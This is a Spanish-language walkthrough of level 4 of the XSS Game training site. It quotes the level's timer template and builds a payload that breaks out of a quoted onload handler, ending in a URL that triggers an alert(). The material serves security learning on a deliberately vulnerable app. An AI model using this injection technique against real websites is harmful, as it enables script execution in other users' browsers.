 #[4/6]  Level 4: Context matters

##Mission Description

Every bit of user-supplied data must be correctly escaped for the context of the page in which it will appear. This level shows why.

##Mission Objective

Inject a script to pop up a JavaScript alert() in the application.

## Write Up Iker 

Esta prueba se complica un poco más que la anterior. Tenemos un **timer** el cual nos indica que saltará una alerta de Time-up una vez que pasen los segundos que hayamos puesto en el campo de texto.
Esto no puede dar una pista que podemos utilizarlo a nuestro favor. Nos dice que saltará una alerta cuando se termine el tiempo, por lo tanto tenemos que encontrar el código que hace saltar la alerta.
Encontramos el siguiente código en timer.html

```html
 <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() { 
          window.confirm("Time is up!");
          window.history.back();
        }, seconds * 1000);
      }
    </script>
  </head>
  <body id="level4">
    <img src="/static/logos/level4.png" />
    <br>
    <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
    <br>
    <div id="message">Your timer will execute in {{ timer }} seconds.</div>
  </body>
```

Nos fijamos en la parte donde dice ```html <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" /> ``` el cual ejecuta el script que está más arriba pasándole como parámetro el número de segundos que hemos introducido para realizar la cuenta atrás.
Teniendo esto en cuenta, podemos jugar con el vamos que introducimos al campo **timer** para que ejecute lo que queremos.

Tenemos que hacer que el valor de timer esto: 
```html 
onload="startTimer('{{ timer }}');"
``` 
sea igual a esto esto:
```html 
');alert('Está PATXIIIIIIII?!');var temp=('
``` 
para que al final quede todo como esta consulta:

```html 
onload="startTimer('');alert('Está PATXIIIIIIII?!');var temp=('');"
``` 
Utilizamos la variable var temp para cerrar el último paréntesis del comando ```html onload="startTimer('{{ timer }}');"``` y no de ningún error.

Probamos a introducir el código ```html ');alert('Está PATXIIIIIIII?!');var temp=('```en el campo timer para ejecutar la consulta quedando de la siguiente manera:
Pero nos salta un error de sintaxis con los **;**. Probamos a cambiar caracter **;** por su valor en html **%3B** y modificamos la consulta:

Probamos de nuevo introduciendolo en el campo de timer y ejecutamos:

```html
https://xss-game.appspot.com/level4/frame?timer=')%3Balert('Esta patxiiiiiii?')%3Bvar temp=('
```

Nos carga el timer y nos muestra el mensaje de alerta que nos pasa al siguiente nivel :)

Iker Burguera






